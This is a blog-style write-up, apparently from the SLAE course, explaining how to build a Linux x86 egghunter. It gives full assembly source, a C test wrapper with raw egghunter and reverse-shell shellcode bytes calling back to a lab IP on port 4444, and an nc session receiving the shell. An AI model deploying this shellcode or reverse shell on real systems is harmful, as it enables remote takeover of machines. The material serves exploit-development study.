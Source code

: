 ```yaml
---
layout: post
title: SLAE 3 - Egghunter Shellcode
date:   2019-02-27
categories: [SLAE, Assembly]
---
```

## Creating an egghunter

In the past I have read about egghunters so I know their purpose and the general idea of how they work but I have never tried to create one or walk through actual implementation strategies.  Corelan has a great exploit writing series that involves a piece on egghunters in detail: \
The article references Skape's write up on egghunters and suggests that it should be a good starting point. So, I'll start with Skape's write up, then move to corelan, and then for extra reading.. the heap only egghunter seems interesting.
1. http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf \
2. https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
3. http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html 

- Egg size is best at 8 bytes
  * A 4 byte key that appears 2 times in a row.  This is because the 4 byte key is stored in memory and making it repeat avoids the situation that it runs into it's own stored key instead of the buffer.
  * This also increases speed because instead of searching for two unique keys it can search for 1 key twice in a row
- Some implementations require that the egg is executable assembly because control is passed to the egg and it will continue execution right into the payload after the egg.  
  * One could create an egghunter that jumps 8 bytes ahead of the egg but that creates unnecessary overhead (solution to this is in skape's writeup)
  * The implementation we will use checks the key with scasd which increases the pointer value by 4 each time we use it.  This is exacly what we need and reduces size while improving our egghunter.

- In 32-bit Linux, the best option for traversing memory without crashing would be to abuse the system call functionality.  Most system calls will return the EFAULT error code if it comes across an invalid memory address.  This can then be used to avoid dereferencing that address and keep from crashing the program.
  * A note is that if we find an invalid memory address, we increase the memory address that we are searching for by 0x1000 (PAGE_SIZE).  This is because if the address is invalid, the entire page will be invalid so we can just skip to the next.  If the address is valid but does not match the key/egg, then we increase by one to continue checking the next memory address in line.

Implementation strategy with system call access(2):
- int access(const char *pathname, int mode);

The syscall number can be found at /usr/include/asm/unistd.h
```c
#define __NR_access 33
```

So our steps are:
1. Prepare the key we will be searching for (4 bytes since our egg will be the key 2 times in a row)
2. Prepare the beginning memory address to check
3. Check if address is valid memory space, if not, we can skip by page size (0x1000) since the entire page will be invalid. Then repeat the memory check.
4. Address is valid.. now we check if the address we are at equals our key, if not, increase memory address by 1 and repeat from step 3
5. First half of egg identified, check address + 4 = key again.  If not, increase memory by 1 and repeat from step 3.
6. Egg found, pass execution to our identified address

One issue I ran in to was that ECX not getting zero'd out at the start caused the egghunter to fail when checking for valid addresses.  It would return an error that did not match EFAULT which led to the invalid address getting dereferenced -> segfault.  So, a short term solution was to just add the instruction to also zero out ecx.

```asm
global _start

section .text

_start:
  xor edx, edx
  xor ecx, ecx
new_page:
  or dx, 0xfff

inc_addr:
  inc edx
  
  lea ebx, [edx+0x4]
  
  push byte 0x21
  pop eax
  
  int 0x80    ; checking address
  
  cmp al, 0xf2  ; check if valid
  jz new_page
  
  ; valid address, check for egg
  mov eax, 0x50905090    
  mov edi, edx
  
  ; scasd compares value in eax to value at edi AND increases the pointer by 4 so we can use this to shorten our shellcode
  scasd
  jnz inc_addr
  
  ; match! check again for 2nd half of egg
  scasd
  jnz inc_addr
  
  ; found our egg, pass execution to this address (start of shellcode since scasd increased to AFTER our egg!)
  jmp edi
```

Time to test it..
Compile nasm, check for nulls, add to wrapper.  The wrapper below has the shellcode from the reverse shell (previously made):
```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\x31\xd2\x31\xc9\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char code[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
	printf("Egghunter Length: %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
You can see that we have adjusted the wrapper a little from previous write ups.  The code array has the egg at the beginning now and we have added the egghunter.  Running strace with the egghunter shows that the egghunter is properly searching all the memory addresses. 

Test it:
```
./shellcode
Egghunter Length: 37
Shellcode Length:  87
```
Receiving reverse shell and issuing command:
```
nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.247.131] port 4444 [tcp/*] accepted (family 2, sport 48834)
who
pwoer    tty7    Dec 11 10:13 (:0)
```
